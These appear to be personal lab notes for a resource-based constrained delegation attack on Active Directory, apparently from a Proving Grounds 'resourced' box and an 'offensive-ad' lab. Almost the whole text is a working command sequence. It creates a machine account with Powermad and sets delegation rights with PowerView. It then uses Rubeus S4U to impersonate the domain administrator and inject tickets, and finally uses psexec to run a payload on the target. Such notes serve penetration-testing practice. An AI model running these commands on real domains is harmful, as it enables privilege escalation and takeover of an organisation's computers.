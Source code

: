 + pg lab demp, resourced; user L.livingstone GenericAll to resourcedc.resourced.local(computer)

```bash
# before and enum
## check MachineAccountQuota, default 10; add domain computer object, ms-ds-machineaccountquota
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
Get-DomainObject -Identity "dc=offensive,dc=local" -Domain offensive.local

## check if user have write priv to some domain computer
## get user sid
get-domainuser -identity rbcdtest -properties objectsid
Get-DomainObjectAcl -Identity client1 | ?{$_.SecurityIdentifier -match "S-1-5-21-1187620287-4058297830-2395299116-3101"}

## check domain controller version, at least 2012; powerview
get-domaincontroller | select OSVersion

# exploit 
## 1. create computer object with powermad
## add computer object
import-module powermad.ps1
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
## check computer sid if the computer added.
get-domaincomputer SERVICEA
S-1-5-21-1187620287-4058297830-2395299116-3102

## 2. configuring rbcd, powerview
$ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer computer1 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

## 2. use activedirectory PowerShell module
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked

## 3. S4U attack
## get hash of ServiceA account, 32ED87BDB5FDC5E9CBA88547376818D4
.\Rubeus.exe hash /password:123456 /user:SERVICEA /domain:offensive.local

## impersonate administrator to serviceB(eg. cifs in the cmd) on computer1
rubeus.exe s4u /user:SERVICEA$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/computer1.domain.local /domain:domain.local /ptt

## use /altservice to get more tickets;
## need cifs and host to use psexec.exe gain the shell.
rubeus.exe s4u /user:SERVICEA$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/computer1.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt

## succeded on offensive-ad lab; dir \\client1\c$, access ok
.\rubeus.exe s4u /user:fake01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:http/client1 /altservice:krbtgt,host,cifs,winrm /domain:offensive.local [/ptt]

## psexec to gain shell of computer1
psexec.exe -accepteula \\computer1 cmd.exe /c "c:\tools\mp4444.exe"

## failed on offensive-ad lab
```